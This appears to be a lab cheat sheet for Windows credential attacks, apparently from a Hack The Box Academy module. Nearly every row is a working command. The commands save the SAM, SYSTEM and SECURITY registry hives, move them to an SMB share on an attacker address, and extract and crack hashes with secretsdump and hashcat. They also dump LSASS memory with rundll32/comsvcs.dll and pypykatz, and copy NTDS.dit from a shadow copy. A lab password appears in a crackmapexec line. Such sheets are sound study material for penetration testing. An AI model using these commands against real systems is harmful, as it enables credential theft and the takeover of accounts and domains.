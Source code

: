 | **Command**| **Description**|
|-|-|
| **Copying SAM Registry Hives** | |
| **Registry Hive** |	**Description** |
| hklm\sam |	Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| hklm\system |	Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database. |
| hklm\security |	Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target. |
| | |
| **Using reg.exe save to Copy Registry Hives** | Description |
| `reg.exe save hklm\sam C:\sam.save` | Command Prompt |
| `reg.exe save hklm\system C:\system.save` | Command Prompt |
| ` reg.exe save hklm\security C:\security.save` | Command Prompt |
| `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/` | Creating a Share with smbserver.py |
| `move sam.save \\10.10.15.16\CompData` | Moving Hive Copies to Share -CMD |
| `move security.save \\10.10.15.16\CompData` | Moving Hive Copies to Share -CMD |
| `move system.save \\10.10.15.16\CompData` | Moving Hive Copies to Share -CMD |
| | |
| `locate secretsdump` | One incredibly useful tool we can use to dump the hashes offline is Impacket's secretsdump.py. |
| `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL` | Running secretsdump.py to dump hashes from hive copies |
| `sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt` | Cracking nt hash using hashcat |
| `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa` |

### Windows Local Password Attacks

| **Command**| **Description**|
|-|-|
| Task Manager Method | Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file *A file called lsass.DMP is created and saved in:* `C:\Users\loggedonusersdirectory\AppData\Local\Temp` |
| | |
| `tasklist /svc`                                              | A command-line-based utility in Windows used to list running processes. |
| `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml` | Uses Windows command-line based utility findstr to search for the string "password" in many different file type. |
| `Get-Process lsass`                                          | A Powershell cmdlet is used to display process information. Using this with the LSASS process can be helpful when attempting to dump LSASS process memory from the command line. |
| `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full` | Uses rundll32 in Windows to create a LSASS memory dump file. This file can then be transferred to an attack box to extract credentials. |
| `pypykatz lsa minidump /path/to/lsassdumpfile`               | Uses Pypykatz to parse and attempt to extract credentials & password hashes from an LSASS process memory dump file. |
| `reg.exe save hklm\sam C:\sam.save`                          | Uses reg.exe in Windows to save a copy of a registry hive at a specified location on the file system. It can be used to make copies of any registry hive (i.e., hklm\sam, hklm\security, hklm\system). |
| `move sam.save \\<ip>\NameofFileShare`                  | Uses move in Windows to transfer a file to a specified file share over the network. |
| `python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL` | Uses Secretsdump.py to dump password hashes from the SAM database. |
| `vssadmin CREATE SHADOW /For=C:`                             | Uses Windows command line based tool vssadmin to create a volume shadow copy for `C:`. This can be used to make a copy of NTDS.dit safely. |
| `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit` | Uses Windows command line based tool copy to create a copy of NTDS.dit for a volume shadow copy of `C:`. |